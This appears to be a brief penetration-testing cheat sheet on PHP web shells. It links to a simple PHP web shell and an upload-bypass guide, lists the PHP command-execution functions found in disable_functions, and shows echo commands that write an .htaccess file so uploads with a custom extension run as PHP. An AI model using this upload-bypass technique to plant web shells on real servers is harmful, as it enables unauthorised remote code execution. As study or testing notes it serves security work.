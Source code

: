 ### :open_file_folder: Simple-PHP-Web-Shell

https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php

### :open_file_folder: PHP HTTP Server

php -S <host ip>:<port>

### :open_file_folder: phpinfo

`disable_functions` = disabled commands

```
system
exec
shell_exec
passthru
popen
proc_open
pcntl_exec
```

### :open_file_folder: upload-bypasses

https://github.com/six2dez/pentest-book/blob/master/enumeration/web/upload-bypasses.md


We can attempt to upload the .htaccess file to configure the server to execute our custom file extensions as PHP scripts.

```shell
# The uploaded file may not be visible in the upload directory.
echo "AddType application/x-httpd-php <custom file extension>" > .htaccess
# example
echo "AddType application/x-httpd-php .abc" > .htaccess
```
